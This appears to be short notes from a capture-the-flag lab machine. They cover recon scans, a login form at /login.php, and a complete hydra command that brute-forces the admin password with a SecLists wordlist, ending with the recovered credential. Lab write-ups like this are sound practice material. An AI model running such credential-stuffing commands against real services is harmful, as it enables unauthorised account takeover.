 ## Info

    ATTACKER=10.10.14.40
    VICTIM=10.10.11.104

## Recon

    bash ../../scripts/discovery/first-scan.sh $VICTIM > recon.txt

Looks like port 22 and 80 are open.

### Port 80

There's a login page, you can `POST http://10.10.11.104/login.php username=asdf&password=ASDF`.

Probably try cred stuffing?

#### Subdir scan

    bash ../../scripts/discovery/subdirectory-scan.sh $VICTIM

#### Cred stuffing

    hydra -l admin -P ~/Git/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt $VICTIM -V http-form-post '/login.php:username=^USER^&password=^PASS^:S=Location' -t 64
    
Apparently it worked. `admin:asdfasdf`. Wow!

